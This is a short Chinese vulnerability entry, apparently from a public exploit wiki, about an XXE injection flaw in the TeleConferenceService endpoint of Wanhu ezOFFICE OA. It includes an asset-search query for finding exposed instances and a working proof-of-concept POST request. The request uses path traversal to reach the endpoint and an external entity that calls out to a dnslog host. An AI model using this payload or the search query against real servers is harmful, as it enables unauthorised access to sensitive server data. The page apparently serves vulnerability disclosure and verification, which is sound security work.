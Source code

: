 # 万户OA TeleConferenceService XXE注入漏洞

## 漏洞描述

万户OA TeleConferenceService接口存在XXE注入漏洞，攻击者通过漏洞可以继续XXE注入获取服务器敏感信息

## 漏洞影响

<a-checkbox checked>万户OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="万户网络-ezOFFICE"</a-checkbox></br>

## 漏洞复现

产品页面

![img](/assets/PeiQi-Wiki/img/1631323798806-958050db-05f6-47ca-95b4-74487ee67a66-20220905135417878.png)

验证POC

```html
POST /defaultroot/iWebOfficeSign/OfficeServer.jsp/../../TeleConferenceService

<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "http://fep6kf.dnslog.cn" >]>        
<value>&xxe;</value>
```

![img](/assets/PeiQi-Wiki/img/1662357047551-20d92354-25b8-45d0-8be5-fd1437a826ce.png)